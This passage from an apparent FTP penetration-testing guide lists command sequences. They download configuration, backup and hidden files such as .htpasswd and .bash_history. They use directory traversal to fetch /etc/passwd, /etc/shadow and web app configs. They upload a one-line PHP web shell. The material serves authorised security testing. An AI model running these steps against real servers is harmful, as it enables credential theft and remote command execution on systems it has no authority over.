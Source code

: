 ```bash
    cd /$dir 2>/dev/null && ls -la && pwd
done
```

**Step 2: File Discovery and Download**
```bash
# Download interesting files
get filename
mget *.txt
mget *.conf
mget *.config
mget *.bak
mget *.backup

# Check for hidden files
ls -la .*
get .htaccess
get .htpasswd
get .bash_history
get .bashrc
```

**Step 3: Directory Traversal Testing**
```bash
# Test directory traversal
cd ../../../etc
ls -la
get passwd
get shadow

cd ../../../var/www/html
ls -la
get index.php
get config.php

cd ../../../windows/system32
ls -la
```

### Phase 3: FTP Write Access Testing

**Step 1: Upload Permission Testing**
```bash
# Test write permissions
echo "test content" > test.txt
put test.txt
ls -la test.txt

# Test executable upload
echo '<?php system($_GET["cmd"]); ?>' > shell.php
put shell.php
```
